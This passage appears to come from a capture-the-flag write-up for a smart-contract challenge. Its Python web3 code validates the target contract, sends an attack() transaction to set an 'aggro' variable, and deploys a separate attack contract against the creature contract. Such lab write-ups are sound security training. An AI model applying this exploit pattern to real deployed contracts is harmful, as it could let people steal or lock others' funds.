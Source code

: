 ### Step 1: Connect and Validate

```python
w3 = Web3(Web3.HTTPProvider(RPC_URL))

if not w3.is_connected():
    print("Failed to connect to RPC!")
    exit(1)

code = w3.eth.get_code(CREATURE_ADDRESS)
if code == b'' or code == '0x':
    print("Contract not found - instance might have expired")
    exit(1)
```

### Step 2: Set Aggro with Direct Attack

First, attack directly from our EOA to set `aggro`:

```python
nonce = w3.eth.get_transaction_count(YOUR_ADDRESS)
attack_txn = creature.functions.attack(1).build_transaction({
    'from': YOUR_ADDRESS,
    'nonce': nonce,
    'gas': 100000,
    'gasPrice': w3.eth.gas_price
})
signed_attack = w3.eth.account.sign_transaction(attack_txn, PRIVATE_KEY)
attack_hash = w3.eth.send_raw_transaction(signed_attack.raw_transaction)
receipt = w3.eth.wait_for_transaction_receipt(attack_hash)
```

This sets `aggro` to our EOA address but deals 0 damage (because `_isOffBalance()` returns false).

### Step 3: Compile and Deploy Attack Contract

```python
compiled_sol = compile_source(attack_contract_source, output_values=['abi', 'bin'], solc_version='0.8.13')

# Extract contract interface
contract_interface = None
for contract_name, contract_data in compiled_sol.items():
    if 'AttackContract' in contract_name:
        contract_interface = contract_data
        break

bytecode = contract_interface['bin']
abi = contract_interface['abi']

# Deploy
AttackContract = w3.eth.contract(abi=abi, bytecode=bytecode)
nonce = w3.eth.get_transaction_count(YOUR_ADDRESS)
transaction = AttackContract.constructor(CREATURE_ADDRESS).build_transaction({
    'from': YOUR_ADDRESS,
    'nonce': nonce,
    'gas': 3000000,
    'gasPrice': w3.eth.gas_price
})
signed_txn = w3.eth.account.sign_transaction(transaction, PRIVATE_KEY)
tx_hash = w3.eth.send_raw_transaction(signed_txn.raw_transaction)
tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
attack_contract_address = tx_receipt.contractAddress
```
